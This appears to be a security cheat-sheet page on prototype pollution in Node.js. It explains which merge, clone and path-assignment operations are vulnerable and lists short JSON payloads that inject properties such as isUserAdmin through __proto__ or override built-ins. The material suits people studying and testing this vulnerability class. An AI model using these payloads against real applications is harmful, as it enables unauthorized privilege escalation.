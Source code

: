 ```yaml
---
description: Affects Node.js
icon: smog
---
```


# Prototype Pollution

{% hint style="info" %}
<mark style="color:purple;">**Prototype pollution happens at some unsafe**</mark>**&#x20;**<mark style="color:orange;">**`merge`**</mark><mark style="color:purple;">**,**</mark>**&#x20;**<mark style="color:orange;">**`clone`**</mark><mark style="color:purple;">**,**</mark>**&#x20;**<mark style="color:orange;">**`extend`**</mark>**&#x20;**<mark style="color:purple;">**and**</mark>**&#x20;**<mark style="color:orange;">**`path assignment`**</mark>**&#x20;**<mark style="color:purple;">**operations on malicious**</mark>**&#x20;**<mark style="color:orange;">**`JSON`**</mark>**&#x20;**<mark style="color:purple;">**objects.**</mark>

* <mark style="color:purple;">**This is exploitable only if any of the following three happens:**</mark>
  * <mark style="color:red;">**`Object recursive merge`**</mark>
  * <mark style="color:red;">**`Property definition by path`**</mark>&#x20;
  * <mark style="color:red;">**`Object clone`**</mark>
* <mark style="color:purple;">Some of the most popular libraries being affected are</mark> <mark style="color:orange;">**`lodash`**</mark> <mark style="color:purple;">and</mark> <mark style="color:orange;">**`Hoek`**</mark>
* <mark style="color:orange;">**`Templates`**</mark> <mark style="color:purple;">are a good target for prototype pollution.</mark>
{% endhint %}

***

{% hint style="danger" %}
### <mark style="color:purple;">Payloads</mark>

* <mark style="color:purple;">The most straightforward example of prototype pollution involves injecting the</mark> <mark style="color:orange;">**`__proto__`**</mark> <mark style="color:purple;">property, which affects all objects that inherit from</mark> <mark style="color:orange;">**`Object.prototype`**</mark><mark style="color:purple;">**.**</mark>
* <mark style="color:purple;">This example adds the</mark> <mark style="color:orange;">**`isUserAdmin`**</mark> <mark style="color:purple;">property to the prototype chain:</mark>

{% code overflow="wrap" %}
```json
{
  "__proto__": {
    "isUserAdmin": true
  }
}
```
{% endcode %}

* <mark style="color:purple;">Also, you can directly manipulate the</mark> <mark style="color:orange;">**`Object.prototype`**</mark> <mark style="color:purple;">by modifying the</mark> <mark style="color:orange;">**`__proto__`**</mark> <mark style="color:purple;">property. This could be done in objects passed to vulnerable code:</mark>

{% code overflow="wrap" %}
```json
{
  "__proto__": {
    "toString": "malicious code"
  }
}
```
{% endcode %}

* <mark style="color:purple;">If the application allows you to define properties via paths (e.g.,</mark> <mark style="color:orange;">**`obj.a.b`**</mark><mark style="color:purple;">):</mark>

```json
{
  "a.b.__proto__.isHacked": true
}
```

* <mark style="color:purple;">The</mark> <mark style="color:orange;">**`constructor`**</mark> <mark style="color:purple;">property is part of the prototype chain for JavaScript objects:</mark>

{% code overflow="wrap" %}
```json
{
  "__proto__.constructor": "MaliciousFunction"
}
```
{% endcode %}

* <mark style="color:purple;">The</mark> <mark style="color:orange;">**`hasOwnProperty`**</mark> <mark style="color:purple;">method is often used to check if an object has a property, but it can be overridden in the prototype:</mark>

```json
{
  "__proto__.hasOwnProperty": false
}
```

* <mark style="color:purple;">If an attacker can manipulate built-in objects' prototypes (like</mark> <mark style="color:orange;">**`Array.prototype`**</mark> <mark style="color:purple;">or</mark> <mark style="color:orange;">**`Function.prototype`**</mark><mark style="color:purple;">), they could affect the behavior of all instances of those types:</mark>

```json
{
  "__proto__.length": 1000
}
```

* <mark style="color:purple;">If the application uses a templating engine and allows user input to be rendered without sanitization, an attacker might inject a prototype pollution payload directly via the template:</mark>

```json
{
  "__proto__": {
    "isAdmin": true
  }
}
```

* <mark style="color:purple;">You can directly inject properties into the prototype of custom classes or objects:</mark>

```json
{
  "customObjectPrototype.isHacked": true
}
```
{% endhint %}

